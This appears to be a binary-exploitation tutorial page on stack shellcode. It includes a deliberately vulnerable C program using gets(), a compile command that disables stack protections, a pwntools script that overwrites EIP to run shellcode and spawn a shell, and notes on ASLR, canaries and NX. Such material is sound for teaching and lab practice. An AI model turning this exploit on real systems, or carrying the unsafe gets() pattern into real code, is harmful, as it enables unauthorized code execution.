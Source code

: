 # Stack Shellcode


## Basic Information

**Stack shellcode** is a technique used in **binary exploitation** where an attacker writes shellcode to a vulnerable program's stack and then modifies the **Instruction Pointer (IP)** or **Extended Instruction Pointer (EIP)** to point to the location of this shellcode, causing it to execute. This is a classic method used to gain unauthorized access or execute arbitrary commands on a target system. Here's a breakdown of the process, including a simple C example and how you might write a corresponding exploit using Python with **pwntools**.

### C Example: A Vulnerable Program

Let's start with a simple example of a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[64];
    gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
    vulnerable_function();
    printf("Returned safely\n");
    return 0;
}
```

This program is vulnerable to a buffer overflow due to the use of the `gets()` function.

### Compilation

To compile this program while disabling various protections (to simulate a vulnerable environment), you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

* `-fno-stack-protector`: Disables stack protection.
* `-z execstack`: Makes the stack executable, which is necessary for executing shellcode stored on the stack.
* `-no-pie`: Disables Position Independent Executable, making it easier to predict the memory address where our shellcode will be located.
* `-m32`: Compiles the program as a 32-bit executable, often used for simplicity in exploit development.

### Python Exploit using Pwntools

Here's how you could write an exploit in Python using **pwntools** to perform a **ret2shellcode** attack:

```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```

This script constructs a payload consisting of a **NOP slide**, the **shellcode**, and then overwrites the **EIP** with the address pointing to the NOP slide, ensuring the shellcode gets executed.

The **NOP slide** (`asm('nop')`) is used to increase the chance that execution will "slide" into our shellcode regardless of the exact address. Adjust the `p32()` argument to the starting address of your buffer plus an offset to land in the NOP slide.

## Protections

* [**ASLR**](../../common-binary-protections-and-bypasses/aslr/) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded.
* [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/) should be also disabled or the compromised EIP return address won't never be followed.
* [**NX**](../../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** protection would prevent the execution of the shellcode inside the stack because that region won't be executable.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
  * 64bit, ASLR with stack address leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
  * 32 bit, ASLR with stack leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
  * 32 bit, ASLR with stack leak, comparison to prevent call to exit(), overwrite variable with a value and write shellcode and jump to it
* [https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/](https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/)
  * arm64, no ASLR, ROP gadget to make stack executable and jump to shellcode in stack

